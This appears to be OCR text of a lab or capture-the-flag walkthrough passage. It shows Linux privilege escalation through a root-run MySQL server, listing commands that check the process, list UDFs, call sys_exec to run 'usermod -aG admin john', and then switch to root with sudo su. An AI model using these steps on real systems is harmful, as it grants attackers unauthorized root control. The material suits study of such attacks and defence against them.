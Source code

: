```bash

You gain root access to MySQL.


---

Leveraging MySQL for Privilege Escalation

Since MySQL runs as root, you can exploit it to execute system commands using User Defined Functions (UDFs).

Checking Running Processes:

Verify that MySQL runs as root:

ps aux | grep mysql

Listing Installed UDFs:

Run the following SQL query to list installed UDFs:

select * from mysql.func;


---

Using UDFs to Execute Commands

To test command execution, run:

select sys_exec('id');

If no error occurs, the UDF works correctly.


---

Adding User to Admin Group

Add john to the admin group:

select sys_exec('usermod -aG admin john');

Results:

The user john is now an admin.


---

Switching to Root

Return to the shell and switch to root:

sudo su

Results:

You now have root access!


---

```